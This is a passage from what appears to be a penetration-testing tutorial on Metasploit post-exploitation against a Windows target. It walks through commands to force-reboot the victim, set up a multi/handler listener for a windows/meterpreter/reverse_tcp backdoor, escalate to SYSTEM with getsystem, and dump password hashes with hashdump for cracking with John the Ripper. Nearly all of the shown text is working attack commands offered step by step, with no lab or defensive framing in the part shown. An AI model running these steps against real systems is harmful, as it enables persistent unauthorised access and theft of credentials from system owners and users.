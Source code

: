 ```
sessions -i 1
shell
shutdown /r /f
```

> instead of session 1 you can pick your own session if you got many against multiple targets.\
> the ctr+z twice to get out and

check if any active listeners are running:

```
jobs -l
```

let's create a Metasploit listener to receive the connection. The payload has to be of the same type as the backdoor that was placed on the victim system:

```
use exploit/multi/handler
set lhost <My_IP>
set lport 5555
set payload windows/meterpreter/reverse_tcp
exploit -j
```

check your sessions you should find your backdoor:

```
sessions -l
sessions -i <session_id>
```

### make sure you get system privilege then[ dumb hashes](https://www.utc.edu/sites/default/files/2021-04/4660-lab6.pdf) to crack them with john The Ripper:

```
getsystem
hashdump
```

![explaining the hashdump output.](<../../.gitbook/assets/image (32).png>)
